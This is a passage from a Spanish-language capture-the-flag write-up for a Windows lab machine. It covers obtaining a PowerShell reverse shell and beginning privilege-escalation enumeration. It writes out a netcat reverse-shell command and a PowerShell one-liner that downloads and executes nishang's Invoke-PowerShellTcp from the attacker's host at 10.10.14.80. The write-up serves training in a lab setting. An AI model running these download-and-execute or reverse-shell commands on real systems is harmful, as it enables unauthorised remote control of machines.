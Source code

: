 Esta shell de telnet no funciona de forma óptima, así que me pasé el binario de `netcat` para mandarme una reverse shell pero...
```cmd
C:\Users\security>.\nc.exe 10.10.14.80 443 -e cmd.exe
This program is blocked by group policy. For more information, contact your system administrator.
```

Así que me transmití el típico script de nishang, `Invoke-PowerShellTcp.ps1`

Modifiqué el script añadiendo la línea `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.80 -Port 443` al final del archivo.

Y ahora, nos mandamos la revshell..
```cmd
C:\Users\security>powershell -c IEX (New-Object Net.Webclient).DownloadString('http://10.10.14.80:8081/Invoke-PowerShellTcp.ps1')
```

Y ya estamos en una consola mas fácil para operar
```powershell
PS C:\Users\security> whoami
access\security
PS C:\Users\security>
```

# Privilege Escalation
Iba a pasar el `winpeas` pero no tenía permisos suficientes ya que parece que hay una GPO que no me lo permite.
```powershell
PS C:\Users\security> .\winPEASx64.exe 
PS C:\Users\security> Invoke-PowerShellTcp : Program 'winPEASx64.exe' failed to execute: This program is blocked by group policy. For more information, contact your system administrator
At line:1 char:17
+ .\winPEASx64.exe <<<<  .
At line:128 char:21
+ Invoke-PowerShellTcp <<<<  -Reverse -IPAddress 10.10.14.80 -Port 443
    + CategoryInfo          : NotSpecified: (:) [Write-Error], WriteErrorException
    + FullyQualifiedErrorId : Microsoft.PowerShell.Commands.WriteErrorException,Invoke-PowerShellTcp
```

Enumerando un poco la máquina manualmente, vemos que en el escritorio del usuario público hay un acceso directo.
```powershell
PS C:\USers\Public\Desktop> dir


    Directory: C:\USers\Public\Desktop


Mode                LastWriteTime     Length Name                                                                                                                                            
----                -------------     ------ ----                                                                                                                                            
-a---         8/22/2018  10:18 PM       1870 ZKAccess3.5 Security System.lnk
```
